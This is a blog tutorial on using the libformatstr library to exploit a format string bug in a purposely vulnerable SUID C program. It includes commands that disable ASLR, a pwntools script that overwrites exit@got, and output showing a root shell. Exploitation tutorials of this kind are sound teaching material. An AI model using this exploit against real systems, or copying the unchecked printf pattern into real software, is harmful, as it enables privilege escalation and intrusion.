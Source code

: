```yaml
---
layout: post
title: "Simplifying Format String Exploitation with libformatstr"
date: 2015-07-01 10:31:08 -0400
comments: true
categories: howto hacking
---
```


libformatstr is a library created by hellman with the intention of simplifying format string exploitation. The GitHub repository can be found [here](https://github.com/hellman/libformatstr). It's been around since 2012 but I haven't been able to find many tutorials on it. I have seen CTF writeups that use it though, so I decided to take the time to do a short writeup on it for my own reference. 

<!-- more -->

Let's start with a simple vulnerable binary: 

```c
/* compile: gcc -Wno-format-security ex1.c -o ex1 */ 
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void win() {
    system("/bin/sh");
}

void main(int argc, char *argv[]) {
    char buf[103]; 
    fgets(buf, 103, stdin); 
    buf[strlen(buf)-1] = 0x0; 
    printf(buf); 
    exit(0);
}
```

You can also download the pre-compiled binary [here](https://gist.github.com/superkojiman/6c113a9ff991d9f3b7da). Turn off ASLR on the system, make the binary SUID root, and run it using socat:

```text
# echo 0 > /proc/sys/kernel/randomize_va_space
# chown root:root ex1
# chmod 4755 ex1
# socat TCP-LISTEN:5000,reuseaddr,fork EXEC:./ex1
```

Let's test the vulnerability:

```
koji@pwnbox32:~$ nc localhost 5000
%x.%x.%x.%x.%x.%x
67.b7fc1c20.bffff734.bffff6d4.2e782548.252e7825koji@pwnbox32:~$
```

Great, we're leaking the stack so we know the vulnerability exists. The first step is to see if we can find our format string on the stack. Traditionally we'd send something like "AAAA.%x.%x.%x.%x" and so on and see if we can find it from the output. libformatstr automates that for us: 

```python
#!/usr/bin/env python
from libformatstr import *      # need this for libformatstr
from pwn import *
import sys

bufsiz = 100                    # size of cyclic pattern to send
buf = "" 
r = remote("localhost", 5000)

# PART 1 - getting format string offset
r.send(make_pattern(bufsiz) + "\n")             # send cyclic pattern to server
data = r.recv()                                 # server's response
offset, padding = guess_argnum(data, bufsiz)    # find format string offset and padding
log.info("offset : " + str(offset))
log.info("padding: " + str(padding))
r.close()
```

To find the offset and padding, libformatstr sends a cyclic pattern to the service using make_pattern(). It takes an integer parameter, which is the length of the cyclic pattern to send. In this case I'm sending 100 bytes. 

When we receive the output from the service, we can use guess_argnum() to return the offset of our format string, and any padding it might have. guess_argnum() takes the output we've received and the length as its parameters. Let's see it in action:

```text
koji@pwnbox32:~$ ./sploit.py 
[+] Opening connection to localhost on port 5000: Done
[*] Closed connection to localhost port 5000
[*] offset : 6
[*] padding: 3
```

According to libformatstr, our format string will be at offset 6 and needs to be padded by 3 bytes. Let's test it manually: 

```
koji@pwnbox32:~$ nc localhost 5000
aaaBBBB.%x.%x.%x.%x.%x.%x
aaaBBBB.67.b7fc1c20.bffff734.bffff6d4.61616148.42424242koji@pwnbox32:~$
```

It worked. We're looking for "BBBB" and we've padded it with three bytes "aaa". Sure enough at offset 6, we see 0x42424242. libformatstr did the job nicely. 

Now that we have the offset and padding, we can move on to exploitation. In this case we want to redirect execution of the binary to the win() function which calls system("/bin/sh"). To do this we'll overwrite exit@got. If you're using the binary I provided, win()'s address is at 0x080484fd, and exit@got is at 0x0804a01c. 

```python
# PART 2 - exploitation
win_addr = 0x080484fd   # gdb ex1 -batch -n -ex "p win"
exit_got = 0x0804a01c   # readelf -r ex1 | grep exit

p = FormatStr(bufsiz)
p[exit_got] = win_addr              # overwrite exit@got with address of win()
buf += p.payload(offset, padding)   # setup the payload

r = remote("localhost", 5000)
r.send(buf + "\n")                  # send payload to server

r.interactive()                     # get our shell
```

As you can see, libformatstr makes overwriting exit@got very easy. No need to calculate how many bytes to write or anything like that. Let's try it:

```text
koji@pwnbox32:~$ ./sploit.py 
[+] Opening connection to localhost on port 5000: Done
[*] Closed connection to localhost port 5000
[*] offset : 6
[*] padding: 3
[+] Opening connection to localhost on port 5000: Done
[*] Switching to interactive mode




                                $ id
uid=0(root) gid=0(root) euid=1000(koji) groups=1000(koji),0(root)
$ 
```

Got a root shell, so our exploit worked. We're not limited to overwriting exit@got with win()'s address. We could have padded our payload with shellcode and have exit@got jump to that instead provided NX isn't enabled on the binary. We could also have had it jump to the start a our ROP chain as well, and so on. 

